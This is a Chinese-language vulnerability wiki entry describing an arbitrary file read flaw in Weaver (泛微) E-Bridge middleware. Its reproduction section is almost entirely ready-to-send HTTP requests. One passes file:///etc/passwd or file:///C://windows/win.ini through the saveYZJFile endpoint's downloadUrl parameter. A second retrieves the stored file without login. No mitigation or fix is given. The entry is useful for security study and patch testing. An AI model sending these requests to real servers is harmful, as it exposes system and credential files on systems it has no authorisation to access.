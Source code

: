 泛微 E-Bridge 云桥任意文件读取
==============================

一、漏洞简介
------------

泛微云桥（E-Bridge）是上海泛微公司在"互联网+"的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

二、漏洞影响
------------

2018-2019 多个版本。

三、复现过程
------------

### 服务器Linux：

    GET /wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt HTTP/1.1
    Host: www.0-sec.org:8088
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: ecology_JSessionId=abc3I_8E3ZP75a_tnGnrx; testBanCookie=test; JSESSIONID=3kqlxwz8wo04x6cs4dlaovn; EBRIDGE_JSESSIONID=3DD7A4B45D85CAE1AC75F8FF6DEB7556
    Connection: close

![1.png](/Users/aresx/Documents/VulWiki/.resource/泛微E-Bridge云桥任意文件读取/media/rId25.png)

### windows服务器：

    GET /wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C://windows/win.ini&fileExt=txt HTTP/1.1
    Host: www.0-sec.org
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: EBRIDGE_JSESSIONID=182ED2E3025C11EA9ADDC07761F56DBA
    Connection: close

![2.png](/Users/aresx/Documents/VulWiki/.resource/泛微E-Bridge云桥任意文件读取/media/rId27.png)

### 读取文件

    GET /file/fileNoLogin/35acd348e86549ffb33d7f531350391e HTTP/1.1
    Host: www.0-sec.org:8088
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: EBRIDGE_JSESSIONID=BABB53753778ED19791B6F606E5B0D77
    Connection: close

**35acd348e86549ffb33d7f531350391e为上个包返回的id**

![3.png](/Users/aresx/Documents/VulWiki/.resource/泛微E-Bridge云桥任意文件读取/media/rId29.png)
